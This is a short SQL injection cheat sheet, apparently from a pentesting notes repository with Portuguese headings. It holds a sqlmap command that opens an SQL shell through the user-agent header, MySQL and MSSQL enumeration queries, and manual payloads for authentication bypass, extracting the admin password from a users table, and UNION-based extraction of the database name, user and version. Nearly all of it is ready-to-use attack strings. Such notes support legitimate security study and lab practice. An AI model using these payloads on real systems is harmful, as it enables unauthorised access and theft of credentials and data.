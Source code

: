 #### SQL Shell
```
sqlmap -u 'http://[URL]/' -p user-agent --sql-shell

## Comandos MySQL

select schema_name from information_schema.schemata;

select table_schema, table_name, column_name from information_schema.tables;

show databases; 
select database();

show schemas;
select schema();

show tables;

## Comandos MSSQL

select name from master..sysdatabases;

select name from sysdatabases;

select name from SYS.databases;

select db_name();
```
#### SQL Injection manual 
```
### Authentication Bypass

username' OR 1=1 -- //

OR = True

### Enumeração SQL Injection

' or 1=1 in (select @@version) -- //

' OR 1=1 in (SELECT * FROM users) -- //

' OR 1=1 in (SELECT * FROM users) --

' or 1=1 in (SELECT password FROM users) -- //

' or 1=1 in (SELECT password FROM users) --

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') --

### UNION SQLi attack conditions 

The injected UNION query has to include the same number of columns as the original query.<p>
The data types need to be compatible between each column.

' ORDER BY 1,1,1,1,1,1 -- //

' ORDER BY 1,1,1,1,1,1 --

%' UNION SELECT database(), user(), @@version, null, null --

```